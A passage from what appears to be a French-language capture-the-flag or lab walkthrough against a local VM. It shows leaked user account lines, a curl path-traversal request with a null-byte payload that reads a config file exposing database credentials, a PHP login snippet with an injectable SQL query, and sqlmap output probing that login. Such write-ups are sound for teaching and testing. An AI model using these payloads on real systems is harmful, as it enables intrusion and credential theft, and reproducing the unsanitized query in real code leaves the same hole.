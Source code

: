```console
john:x:500:500::/home/john:/bin/bash
linda:x:501:501::/home/linda:/bin/bash
fred:x:502:502::/home/fred:/bin/bash
molly:x:503:503::/home/molly:/bin/bash
toby:x:504:504::/home/toby:/bin/bash
```

Ou encore le fichier ```config.ini``` obtenu précédemment et ce, malgré la mise en place du .htpasswd.

```console
root@blinils:~# curl http://192.168.56.101/actions/login.php?action=../../conf/config.ini%00
;
; This is the configuration file
;
database_host	=	localhost
database_pass	=	45kkald?8laLKD
database_user	=	cms_user
database_db	=	cms
```

### Analyse de code_backup.tgz : injection SQL sur la page login.php

Dans cette même page, une autre portion de code est particulièrement intéressante (et vulnérable).

```php
if (isset($_POST['username']) && isset($_POST['password'])) {
	$sql = "select user_id from user 
			where user_username = '" . $_POST['username'] . "'";
	$query = mysql_query($sql) or die("Query error with $sql: " . mysql_error());
	if ($query && mysql_num_rows($query) > 0) {
		//user exists
		$uname = mysql_fetch_object($query);
		$sql = "select * from user where user_id = " . $uname->user_id . 
			" AND user_password = md5('" . $_POST['password'] . "')";
		$query = mysql_query($sql) 
			or $log->append("Query error in login $sql<hr/> " . mysql_error());
		
        --snip--
	}
	
	--snip--
}
```

Tout est question de filtrage, de validation et de contrôle sur les données entrantes. Les valeurs ```username``` et ```password``` fournies par l'utilisateur ne sont pas contrôlées, et une personne malveillante pourrait y inclure du code SQL afin de récupérer ce qu'il y a en base de données.

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/?action=login" --data="username=test&password=test" --dbms=MySQL
--snip--
[02:02:02] [INFO] testing connection to the target URL
[02:02:02] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[02:02:02] [INFO] testing if the target URL content is stable
[02:02:02] [INFO] target URL content is stable
[02:02:02] [INFO] testing if POST parameter 'username' is dynamic
[02:02:02] [WARNING] POST parameter 'username' does not appear to be dynamic
[02:02:02] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
[02:02:02] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to cross-site scripting (XSS) attacks
--snip--
```